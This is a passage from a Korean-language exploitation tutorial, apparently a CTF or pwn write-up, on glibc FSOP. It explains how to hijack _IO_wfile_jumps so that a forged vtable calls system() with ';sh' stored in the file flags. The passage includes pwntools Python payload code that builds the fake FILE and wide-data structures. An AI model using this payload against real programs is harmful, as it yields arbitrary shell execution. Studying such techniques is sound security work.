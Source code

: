 우리가 사용할 것은 `_IO_wfile_jumps` 안에서 불리는 `_IO_wdoallocbuf`이며, 특히 다음 구문을 사용할 것이다.

```c
if ((wint_t)_IO_WDOALLOCATE (fp) != WEOF)
```

이때 `_IO_WDOALLOCATE()` 메크로는 위에서 봤듯 vtable안의 `__doallocate` 필드에 적힌 함수를 호출한다. 위의 구조체로부터 이 필드의 오프셋이 `0x68`이라는 점을 알면, 다음과 같은 공격 방향을 설정할 수 있다.

1. `fflush()` 의 `vtable`을 `IO_wfile_underflow()` 로 덮어씀
2. 가짜 `vtable`을 만들어 `doallocate`가 `system()`을 가리키도록 함
3. `fp->flags`의 상위 비트에 `; sh`를 넣어 결과적으로 `doallocate(fp)`가 `system(fp->flags)` 가 되도록 함

## 3-2. Payload 작성

이와 위에서 논의한 조건들을 고려해 `_IO_FILE_complete`를 구성하면 다음과 같다.

```python
io_file_complete = FileStructure()
io_file_complete.flags = 0x00000000fbad2404 & (~0x10) & (~0x4) & (~0x02)
io_file_complete.flags = io_file_complete.flags | 1 | int.from_bytes(b";sh", 'little') << (4 * 8)
io_file_complete.chain = stderr
io_file_complete._lock = libc.bss() + 0x1000
io_file_complete.vtable = libc.symbols['_IO_wfile_jumps'] + 0x20 - 0x60
io_file_complete._wide_data = libc.symbols['_IO_2_1_stderr_'] + 0xe0 # 0xe0 -> FSOP size
io_file_complete._IO_buf_base = 1
io_file_complete._IO_save_base = 0
io_file_complete = bytes(io_file_complete)
```

```python
fake_wide  = p64(0) #_IO_read_ptr
fake_wide += p64(0) #_IO_read_end
fake_wide += p64(0) #_IO_read_base
fake_wide += p64(0) #_IO_write_base
fake_wide += p64(0) #_IO_write_ptr
fake_wide += p64(0) #_IO_write_end
fake_wide += p64(0) #_IO_buf_base
fake_wide += p64(0) #_IO_buf_end
fake_wide += p64(0) #_IO_save_base
fake_wide += p64(libc.symbols["system"]) # libc.symbols['_IO_2_1_stderr_'] + 0xe0 + 0x48
fake_wide += b"\x00" * (0xe0 - len(fake_wide))
fake_wide += p64(libc.symbols['_IO_2_1_stderr_'] + 0xe0 + 0x48 - 0x68) # vtable
```

그림으로 표현하면 다음과 같다.

<center>